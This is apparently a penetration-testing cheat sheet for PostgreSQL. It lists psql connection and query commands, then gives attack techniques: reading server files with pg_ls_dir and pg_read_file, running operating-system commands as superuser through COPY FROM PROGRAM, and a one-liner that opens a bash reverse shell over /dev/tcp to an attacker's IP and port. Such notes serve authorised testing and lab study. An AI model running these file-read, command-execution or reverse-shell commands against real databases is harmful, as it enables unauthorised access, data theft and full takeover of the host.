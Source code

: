 ```yaml
---
title: "PostgreSQL"
date: 2025-7-25
tags: ["Database Dumping", "Privilege Escalation In Databases", "Postgresql", "RCE", "Database", "File Read"]
---
```


### Connect

```console
psql -h <TARGET> -U <USER>
```

```console
psql -h <TARGET> -U <USER> -p <PORT> -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@<TARGET>:5432/<DB_NAME>'
```

### General

```console
# Show databases
\list
```

```console
# Use database
\connect <DB_NAME>
```

```console
# Show tables
\dt
```

```console
# Disable pager
\pset pager 0
```

```console
# Dump from table
select * from "<TABLE_NAME>";
```

```console
# Insert into table
insert into "<TABLE_NAME>" (<COLUMN_1>, <COLUMN_2>) values ('<VALUE_1>', '<VALUE_2>');
```

```console
# Update table
update "<TABLE_NAME>" set <COLUMN_1> = '<VALUE_1>' where <COLUMN_2> = '<VALUE_2>';
```

```console
# Write text
copy (select '<STRING>') to '<TARGET_PATH>';
```

```console
# List all user accounts
\du+
```

```console
# Exit
\q
```

---

### File Read

```console
# List directory
SELECT * FROM pg_ls_dir('<DIR_PATH>');
``` 

```console
# File read
SELECT pg_read_file('<FILE_PATH>', 0, 4096);
```

---

### RCE

```console
# Only for superuser
CREATE TABLE IF NOT EXISTS exec(string text);
```

```console
# Code execution
COPY exec FROM PROGRAM '<CMD>';
```

```console
# Check ouput
SELECT * FROM exec;
```

```console
# One-liner
DO $$ DECLARE c text; BEGIN c := 'COPY (SELECT '''') to program ''bash -c "bash -i >& /dev/tcp/<LOCAL_IP>/<PORT> 0>&1"'''; EXECUTE c; END $$;
```